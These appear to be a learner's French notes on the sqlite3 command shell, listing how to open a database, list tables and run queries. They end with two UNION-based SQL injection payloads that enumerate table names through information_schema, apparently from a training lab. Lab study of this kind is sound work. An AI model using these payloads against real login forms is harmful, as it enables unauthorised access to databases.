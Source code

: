 SQLITE 3 :
Exploitation de DataBase

sqlite3 example.db				Ouvrir un fichier (n'a pas l'ai de marcher si le
						fichier est encrypté

sqlite > .tables				Pour acceder aux noms des tables
sqlite > PRAGMA table_info(customers);		Pour accéder aux attributs d'une table


admettons que cela renvoie la table customers
sqlite > SELECT * FROM customers;		On peut rentrer des requêtes sql (comme
						on a appris au lycée letss gooo)
						
						
admin12' UNION Select 1,2,group_concat(table_name) from information_schema.tables where table_schema = 'sqli_three' and table_name like 'pasklenfkje';--
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--

